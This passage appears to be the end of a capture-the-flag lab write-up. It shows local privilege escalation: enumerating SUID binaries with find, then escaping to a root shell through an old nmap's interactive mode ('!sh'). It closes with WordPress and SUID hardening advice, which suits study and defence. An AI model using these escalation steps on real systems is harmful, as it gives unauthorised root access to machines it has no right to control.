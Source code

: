 Running sudo -l gave:
```
Sorry, user robot may not run sudo on ip-10-10-43-47.

```

I then scanned the SUID binaries:

```
find / -perm -4000 -type f 2>/dev/null

```

Found:
```
/usr/local/bin/nmap

```
Confirmed it was version 3.81, which supports interactive shell escape.

Executed:
```
/usr/local/bin/nmap --interactive

```

Inside the prompt:

```
!sh

```
<img width="1535" height="501" alt="Screenshot (22)" src="https://github.com/user-attachments/assets/a270343f-0ce6-47d9-84ae-ef4f5def26cc" />


We now have access to root!


## Final Thoughts 

This box was a great example of how small vulnerabilities — like exposed dictionaries, base64 credentials, theme access, and a SUID nmap binary — can be chained into full root compromise. Manual inspection made all the difference, especially when brute-force tools hit noise.

Theme-based shell injection was fast and effective, and privilege escalation via outdated nmap wrapped everything up cleanly. Each step reinforced how simple misconfigurations open big doors when left unchecked.

## Mitigations

This attack path could've been shut down early with some basic hardening:

- Disable plugin/theme editing in WordPress:  
  `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`

- Enforce login protection with rate-limiting or CAPTCHA

- Remove SUID from exploitable binaries
